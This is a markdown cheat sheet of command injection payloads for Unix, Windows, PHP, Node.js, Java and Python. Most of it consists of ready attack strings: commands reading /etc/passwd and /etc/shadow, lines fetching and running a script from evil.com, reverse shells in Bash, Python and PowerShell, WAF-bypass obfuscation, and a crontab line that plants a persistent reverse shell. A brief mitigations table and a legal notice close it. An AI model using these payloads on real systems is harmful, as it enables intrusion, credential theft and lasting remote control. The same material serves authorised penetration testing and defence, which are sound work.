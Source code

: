```markdown
# Ultimate Command Injection Payload Cheat Sheet

Command injection allows attackers to execute arbitrary OS commands on a vulnerable system. This comprehensive guide covers all scenarios from basic to advanced, including language-specific exploitation.

---

## Table of Contents
1. [Basic Command Injection](#basic-command-injection)
2. [Advanced Payloads](#advanced-payloads)
3. [Language-Specific Exploitation](#language-specific-exploitation)
   - [PHP](#php-based-command-injection)
   - [Node.js](#nodejs-javascript-command-injection)
   - [Java](#java-processbuilderruntimeexec)
   - [Python](#python-command-injection)
4. [Reverse Shells](#reverse-shell-payloads)
5. [WAF Bypass Techniques](#waf-bypass-tricks)
6. [Post-Exploitation](#post-exploitation)
7. [Defensive Mitigations](#defensive-mitigations)

---

## Basic Command Injection
### Unix/Linux
```bash
; whoami              # Simple command execution
| id                  # Pipe operator
|| ls -la /           # OR operator (executes if first fails)
&& cat /etc/passwd    # AND operator (executes if first succeeds)
`uname -a`            # Backticks execution
$(ls /home)           # Command substitution
```

### Windows
```cmd
& whoami               # Ampersand (parallel execution)
| dir C:\              # Pipe operator
|| ipconfig /all       # OR operator
&& net users           # AND operator
```

---

## Advanced Payloads
### Chaining Commands
```bash
; cat /etc/passwd; ls /tmp
| tail -n 5 /etc/shadow | grep root
&& wget http://evil.com/shell.sh -O /tmp/shell.sh && chmod +x /tmp/shell.sh
```

### Blind Command Injection
```bash
; sleep 5             # Time-based detection
|| ping -c 10 127.0.0.1
$(ping -n 5 localhost) # Windows
```

### File Operations
```bash
; cat /etc/passwd
| head /etc/shadow
> /var/www/html/test.txt  # Write output to file
```

---

## Language-Specific Exploitation
### PHP-Based Command Injection
```php
<?php
system($_GET['cmd']);         // Most dangerous
exec($_POST['command']);
`$_REQUEST['cmd']`;           // Backtick operator
?>
```

**Bypass Techniques:**
```bash
?cmd=whoami'
?cmd=$(whoami)
?cmd=whoami%00              # Null byte (PHP < 8.0)
```

### Node.js (JavaScript)
**Vulnerable Code:**
```javascript
const { exec } = require('child_process');
exec('ls ' + userInput);     // Dangerous!
```

**Payloads:**
```bash
userInput=/tmp; cat /etc/passwd
userInput=' || curl http://evil.com/shell.sh | bash'
```

### Java (ProcessBuilder/Runtime.exec)
**Exploitation:**
```bash
userInput=127.0.0.1 & whoami  # Windows
userInput=sh -c $@|sh . echo whoami  # Linux bypass
```

### Python
**Vulnerable Patterns:**
```python
os.system(f"ping {user_input}")  # Risky
subprocess.run(user_input, shell=True)  # Dangerous
```

**Payloads:**
```bash
user_input=8.8.8.8; whoami
user_input='\x77\x68\x6f\x61\x6d\x69'  # Hex encoded
```

---

## Reverse Shell Payloads
### Bash
```bash
bash -i >& /dev/tcp/10.0.0.1/4444 0>&1
```

### Python
```python
python -c 'import socket,os,subprocess;s=socket.socket();s.connect(("10.0.0.1",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
```

### PowerShell
```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.0.0.1',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes,0,$bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

---

## WAF Bypass Tricks
### Obfuscation Methods
```bash
# Character Escape
w'h'o'a'm'i
w"h"o"a"m"i

# Encoding
$(echo "d2hvYW1p" | base64 -d)

# Wildcards
/???/??t /???/??ss??
```

### Space Bypass
```bash
{cat,/etc/passwd}       # No spaces
IFS=,;cat$IFS/etc/passwd  # Internal Field Separator
```

---

## Post-Exploitation
### Privilege Escalation
```bash
sudo -l                 # Check sudo permissions
find / -perm -4000      # Find SUID binaries
```

### Persistence
```bash
echo "* * * * * root /bin/bash -i >& /dev/tcp/10.0.0.1/4444 0>&1" >> /etc/crontab
```

---

## Defensive Mitigations
| Technique          | Implementation Example                  |
|--------------------|----------------------------------------|
| Input Validation   | Whitelist allowed characters           |
| Secure Functions   | Use `subprocess.run([args], shell=False)` in Python |
| Least Privilege    | Run apps as non-root user              |
| WAF Rules         | Block `;`, `|`, `&`, `$()` patterns    |

---

⚠️ **Legal Notice**:  
- For **authorized penetration testing** only  
- Unauthorized testing is **illegal** under CFAA, CMA, and other laws  

```

### How to Use This File
1. Save as `ultimate_command_injection.md`
2. Use for:
   - Security assessments
   - Secure code reviews
   - Red team engagements
